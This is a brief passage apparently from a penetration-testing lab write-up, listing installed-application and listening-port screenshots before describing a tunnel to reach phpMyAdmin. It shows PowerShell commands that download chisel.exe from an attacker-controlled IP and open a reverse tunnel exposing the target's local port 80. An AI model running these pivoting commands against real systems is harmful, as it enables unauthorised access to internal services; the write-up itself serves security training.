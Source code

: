 ### Installed applications

<img src="../Images/image-20230820152043635.png" alt="image-20230820152043635" style="zoom:80%;" />

### TCP Listening Ports

<img src="../Images/image-20230820152130866.png" alt="image-20230820152130866" style="zoom:80%;" />



### Setting up proxy for connect to phpmyadmin

```bash
PS C:\Windows\Temp> iwr -uri http://192.168.45.232/chisel.exe -o chisel.exe
PS C:\Windows\Temp> .\chisel.exe client 192.168.45.232:8081 R:80:127.0.0.1:80
```

<img src="../Images/image-20230820154408190.png" alt="image-20230820154408190" style="zoom:80%;" />
